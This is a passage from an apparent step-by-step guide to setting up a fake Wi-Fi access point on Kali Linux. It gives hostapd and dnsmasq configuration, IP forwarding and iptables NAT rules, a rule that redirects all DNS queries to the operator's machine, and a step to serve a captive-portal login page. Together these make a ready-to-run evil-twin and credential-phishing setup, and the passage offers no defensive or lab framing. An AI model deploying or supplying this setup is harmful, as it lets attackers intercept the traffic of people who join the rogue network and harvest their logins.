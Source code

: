    ```
   auth_algs=1
   wpa=2
   wpa_passphrase=YourPassphrase
   wpa_key_mgmt=WPA-PSK
   wpa_pairwise=TKIP
   rsn_pairwise=CCMP
   ```

   Replace `YourFakeSSID` with the desired SSID for your fake access point and `YourPassphrase` with the desired password.

3. **Configure DHCP and DNS**:
   Configure `dnsmasq` to act as a DHCP server and DNS server:
   ```bash
   sudo nano /etc/dnsmasq.conf
   ```
   Add the following configuration:
   ```
   interface=wlan0
   dhcp-range=192.168.1.2,192.168.1.20,24h
   address=/#/192.168.1.1
   ```

4. **Start Services**:
   Start `dnsmasq` and `hostapd` services:
   ```bash
   sudo systemctl start dnsmasq
   sudo systemctl start hostapd
   ```

5. **Enable IP Forwarding**:
   Enable IP forwarding to allow traffic to flow through your machine:
   ```bash
   sudo sysctl net.ipv4.ip_forward=1
   ```

6. **Set up IP Tables**:
   Set up IP tables to forward traffic:
   ```bash
   sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
   sudo iptables -A FORWARD -i eth0 -o wlan0 -m state --state RELATED,ESTABLISHED -j ACCEPT
   sudo iptables -A FORWARD -i wlan0 -o eth0 -j ACCEPT
   ```

7. **Configure Captive Portal**:
   Configure `dnsmasq` to redirect all DNS requests to your login page:
   ```bash
   sudo nano /etc/dnsmasq.conf
   ```
   Add the following line:
   ```
   address=/#/192.168.1.1
   ```

   Replace `192.168.1.1` with the IP address of your Kali Linux machine hosting the login page.

8. **Create Login Page**:
   Set up a web server (Apache, Nginx, etc.) and place your login page in the appropriate directory.
